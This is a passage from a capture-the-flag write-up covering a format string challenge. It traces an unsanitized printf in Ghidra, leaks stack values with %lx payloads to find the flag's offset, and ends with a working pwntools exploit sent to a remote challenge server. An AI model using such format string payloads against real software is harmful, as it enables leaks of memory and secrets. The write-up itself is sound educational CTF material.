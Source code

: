 ![image](https://gist.github.com/user-attachments/assets/ccdca851-cacb-4234-9fe5-6f1b227aa9e6)


Sure enough we do get our flag as:

`ZUCTF{L0ng35t_n4m3_t0_3v3r_3x15t}`

### FMT

The next challenge was based on a format string vulnerability where you could read memory values using `%p` Let us see how this arises in ghidra

![image](https://gist.github.com/user-attachments/assets/9ae9eeef-5bd6-4e63-939a-1ffaab2b3428)

So we do see that there is a `printf()` function that has not been really sanitized. And to test for this we could send `%p`  to the binary and see what is printed back to us.

![image](https://gist.github.com/user-attachments/assets/7da385af-6d81-4314-b16d-2c2e93f9bccf)

Sure enough we do see some things being printed back to us. Also when analyzing the binary in ghidra we do see that the flag contents are saved on the stack as a variable `local_10 = fopen("flag.txt", "r"`

Now this narrows down our means to get the flag as we can use `%lx` to print values from the stack as hex. Then decode whatever is printed back to us.

By sending a lot of this to the binary we do get some values back

![image](https://gist.github.com/user-attachments/assets/bb403ffb-57a8-4764-ae7a-95e35f3a7c00)

Yeah this is a lot but to basically explain, in between will be repeated values since this is our input `%lx` a bunch of times. After this repeated values is what we would ideally be interested in.
Now I created a flag locally to test this, and put the contents `fake flag` inside. Looking through all this addresses but we do get a good hit on this value `616c6620656b6166`

![image](https://gist.github.com/user-attachments/assets/2dd86e3f-c7a9-4536-a29d-353ceeea8b53)

Nice we get the string `fake flag` even though it seems in reverse. But now we need to know the number in which this address will be from. So our payload would look something like `%{n}$lx` with `n` being the number where the value leaks. In our case this was `136`.

With this information we can craft a solution that we would use on remote. Now here the flag is longer so we need to leak `136` and `137` values from the stack.

```python
from pwn import *

# p = process("./fmt")
p = remote("84.8.139.90", 9004)

p.sendline(b"%136$lx.%137$lx")

p.recvuntil(b"Here: ")
leak = p.recvlineS().split(".")
var_1 = leak[0]
var_2 = leak[1]

print(var_1, var_2)

flag = bytearray.fromhex(var_1).decode()[::-1]
flag += bytearray.fromhex(var_2).decode()[::-1]

print(flag)

p.interactive()
```
